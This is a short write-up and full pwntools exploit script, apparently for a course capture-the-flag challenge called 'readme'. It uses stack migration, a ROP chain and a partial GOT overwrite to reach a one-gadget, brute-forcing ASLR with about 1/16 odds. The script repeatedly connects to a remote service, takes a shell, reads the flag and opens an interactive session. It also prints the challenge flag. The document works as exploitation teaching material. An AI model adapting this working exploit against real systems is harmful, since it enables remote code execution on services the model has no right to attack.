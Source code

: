 # HW3
## readme
* `Stack migrate` and `stack migrate` then continue `stack migrate`.
* I overwrite the last two byte of `*got['read']` cause:
```
read offset -> 0xf7220
one         -> 0xf0274
```
* It has only 4 bits unpredictable.
* So get the shell with probability about 1/16.
* BTW, if use common way of `ret2libc`, you need to bypass `ASLR` first,
* so you need to call `printf` for you to leak address, but it will use
* lots of stack so that it will write on the `r--` section, then crash first. 

```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{CAN_YOU_R34D_MY_M1ND?}

'''
With probability about 1/16
'''

context.arch = 'amd64'

e , l = ELF('./readme-fc826c708f619e14b137630581b766b23e3db765') , ELF('./libc.so.6-14c22be9aa11316f89909e4237314e009da38883')

host , port = 'csie.ctf.tw' , 10135

pop_rdi = 0x4006b3
ppr = 0x4006b1
leave_ret = 0x400646

p = flat(
    'D' * 0x20,
    e.bss() + 0xd00 + 0x20,
    0x40062b
)

p2 = flat(
    ppr,
    e.got['read'],
    0,
    e.plt['read'],
    e.bss() + 0xd00 + 0x20 + 0x20,
    0x40062b
)

p3 = flat(
    e.plt['read'],
    leave_ret,
    2,
    3,
    e.bss() + 0xd00 - 8,
    leave_ret
)

while True:
    y = remote(host,port)

    y.sendafter( ':' , p )
    sleep(0.2)
    y.send(p2)
    sleep(0.2) 
    y.send(p3)
    sleep(0.2)
    y.send( '\x74\x32' )
    sleep(0.1)
    y.sendline( 'cat /home/`whoami`/flag' )

    try:
        log.success( y.recvline() )
        y.sendline( 'id' )
        y.interactive()
    except:
        y.close()
```